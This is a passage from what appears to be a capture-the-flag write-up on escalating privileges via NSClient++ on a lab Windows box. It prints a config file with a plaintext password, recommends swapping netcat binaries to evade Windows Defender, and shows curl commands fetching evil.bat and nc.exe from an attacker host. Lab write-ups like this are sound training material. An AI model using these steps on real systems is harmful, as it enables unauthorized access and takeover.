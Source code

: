 I looked into `C:\Program Files\` Directory and found that `NSClient++` was installed. After exploring the `C:\Program Files\NSClient++\` folder, I notice one of the interesting file `nsclient.ini`. Here is the output look like.

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

; CheckTaskSched - Check status of your scheduled jobs. 
CheckTaskSched = enabled

; Scheduler - Use this to schedule check commands and jobs in conjunction with for instance passive monitoring through NSCA
Scheduler = enabled

; CheckExternalScripts - Module used to execute external scripts
CheckExternalScripts = enabled


```


Few important things to note here. The NSClient++ runs the localhost (127.0.0.1). If you look at the initial Nmap Scan result, we notice that the Port `8443/tcp` is running NSClient++ on the localhost. Next, we have a password in a plain text. This is probably the Admin account password for NSClient++. Notice that the `CheckExternalScripts` is Enabled. Which means we can load the external Script. So upon digging on Exploit-DB, I found the [NSClient++ 0.5.2.35 - Privilege Escalation](https://www.exploit-db.com/exploits/46802) Exploit. Which has all the details on how to take advantage of this exploit. **HOWEVER**, I want to highlight two important points here that I experience while solving this box. 

- **Windows Defender is Enabled on the target so your usual nc.exe from kali won't work. You will need nc64.exe from GitHub**
- **Scheduler throws an error if you are configuring the Privilege Escalation steps from Browser. You will need to Interact with NSClient++ API.**
- **Here is the NSClient++ Documentation Link for [Adding Script](https://nsclient.org/docs/api/rest/scripts/#add-script) and [Executing Script](https://nsclient.org/docs/api/rest/queries/#command-execute)

Okay, I had to use the combination of APIs as well as GUI to perform the Privilege Escalation. Now We have access to `nadine` user account. We will first create a `tmp` directory on C Drive and put two files in it. First one is `evil.bat` and the second one is `nc64.exe`. I have renamed `nc64.exe` to just `nc.exe`.

```
nadine@SERVMON C:\>mkdir tmp

nadine@SERVMON C:\>cd tmp

nadine@SERVMON C:\tmp>curl -o evil.bat http://10.10.16.5/evil.bat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    40  100    40    0     0     40      0  0:00:01 --:--:--  0:00:01   197

nadine@SERVMON C:\tmp>curl -o nc.exe http://10.10.16.5/nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 45272  100 45272    0     0  45272      0  0:00:01 --:--:--  0:00:01 85097

```